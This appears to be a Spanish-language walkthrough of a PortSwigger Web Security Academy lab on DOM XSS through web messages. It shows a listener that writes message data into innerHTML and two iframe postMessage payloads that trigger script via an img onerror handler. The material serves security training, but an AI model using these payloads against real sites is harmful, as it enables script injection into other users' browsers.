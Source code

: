 ```yaml
---
description: >-
  https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages
---
```


# Lab 1: DOM XSS using web messages

Primero analizamos el codigo fuente y se detecta un codigo javascript interesante:

```html
<!-- Ads to be inserted here -->
<div id='ads'></div>
<script>
window.addEventListener('message', function(e) {
  document.getElementById('ads').innerHTML = e.data;
})
</script>
```

* La función `innerHTML` asigna directamente el contenido HTML al elemento `div` con id `ads`.
* Si el contenido (`e.data`) incluye código HTML o JavaScript, este será interpretado y ejecutado por el navegador.

Teniendo en cuenta lo anterior y adicionalmente la ausencia de la cabecera de x-frame-options:

```
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 11084
```

Se procede a crear un HTML con el siguiente payload:

{% code overflow="wrap" %}
```html
<iframe src="https://0a6f00e203d49a2b80f7121800fe00bb.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=alert(2024)>','*')">
```
{% endcode %}

Y lo anterior, nos genera el siguiente comportamiento:

<figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

El siguiente payload nos ayudara a resolver el ejercicio:

{% code overflow="wrap" %}
```html
<iframe src="https://0a6f00e203d49a2b80f7121800fe00bb.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```
{% endcode %}
